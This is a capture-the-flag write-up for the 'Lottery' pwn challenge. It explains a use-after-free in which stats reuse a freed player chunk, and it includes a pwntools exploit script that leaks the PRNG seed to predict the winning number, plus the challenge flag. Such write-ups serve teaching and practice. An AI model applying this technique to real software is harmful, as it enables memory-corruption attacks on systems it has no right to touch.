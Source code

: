 # Lottery
```
   .--------------------------------------------.
   |   WELCOME TO YOUR FAVOURITE LOTTERY GAME   |
   | SECURE CODING IS HARD, BUT WE DID OUR BEST |
   |   TO ENSURE A FAIR GAME FOR EVERYONE :)    |
   `--------------------------------------------'
                  /
                 /
         ,---')
        (  -_-(
        ) .__/ )
      _/ _/_( /        _.---._
     (__/ _ _) ,-._   /  o    \
       //)__(\/,-` |_| O  o o O|
   _\\///==o=\'      |O o  o O |
    `-' \    /        \O o   o/
         )___\         `'-.-\\
        / ,\ \       ____)_(____
       / /  \ \     '--..---,,--'
      /()    >()        \\_//
  hfz |\_\   |\_\       /,-.\
                 https://ascii.co.uk/art/lottery
```

## Description

Category : pwn<br>
Points : 482<br>
solves : 3<br>

Secure coding is hard, some bugs are really difficult to find even with the most advanced fuzzing techniques!<br>
Find a way to win the lottery and get the flag.

## Analysis 
This is a lottery game, we need to register to play by guessing a random number, then we can see the stats.
```
.--------- Menu ---------.
| 1. Register            |
| 2. Play                |
| 3. Stats               |
| 4. Unregister          |
| 5. Quit                |
`------------------------'
>>> 1
Enter your age: 23
Enter your gender (male/female): male
Enter your nickname: $hell
Successfully registered.
.--------- Menu ---------.
| 1. Register            |
| 2. Play                |
| 3. Stats               |
| 4. Unregister          |
| 5. Quit                |
`------------------------'
>>> 2
Your guess: 12345
Wrong wrong wrong, WRONG!!
```
I tried decompiling the binary with ida and I arrived to this conclusion.
There are two types of structs (player and stats) that look like this:
```c
typedef struct player {
    int age;
    char gender[16];
    char *nickname;
}player;

typedef struct stats {
    void *next_pointer;
    int round_number;
    int actual_value;
    int your_guess;
}stats;
```
I also found that the seed is a global variable (in .bss section) and since PIE is disabled, its address won't change.<br>
we notice that we can't play without registering, but we can still play if we register then unregister.
This will cause the new stats struct to allocate the same heap (fast-bin) chunck where the player struct used to be. (kinda use-after-free)

## Solution
We can leak the seed by doing the following :<br>
1_ register a player (which will malloc(0x20))<br>
2_ unregister (which will free the allocated player chunck)<br>
3_ play by entering the seed address as our guess (which will reallocate the same memory chunck where player used to be
and our guess will be at the same place in memory where the nickname pointer was)<br>
4_ show stats (it will try to access the players nickname by accessing the pointer at player[3], but in reality it's accessing
stats[3] where the seed's address is)<br>
5_ use the leaked seed to calculate the next "random" number and win the game.<br>

## Exploit
```python
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

exe = ELF("./lottery")

context.binary = exe

seed_addr = 0x4040F0

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("pwn.ctf.microclub.net", 5003)

def register(io, age, gender, name):
    io.sendline('1')
    io.sendline(str(age))
    io.sendline(gender)
    io.sendline(name)

def unregister(io):
    io.sendline('4')

def play(io, guess):
    io.sendline('2')
    io.sendline(str(guess))

def show_stats(io):
    io.recvuntil('>>> ')
    io.sendline('3')
    io.recvuntil('Current player: Mrs. ')
    return int.from_bytes(io.recv(numb=4), "little")

def main():
    r = conn()

    register(r, 22, 'male', 'shell')
    unregister(r)
    play(r, seed_addr)
    seed = (show_stats(r))
    libc = CDLL("libc.so.6")
    libc.srand(seed)
    libc.rand()
    play(r, libc.rand())

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag
```
shellmates{d4ngl1ng_p01nt3rs_4r3_d4ng3r0us_my_dud3s}
```

[Shellmates's original write-ups](https://github.com/Shellmates/MicroCTF-2021-quals)

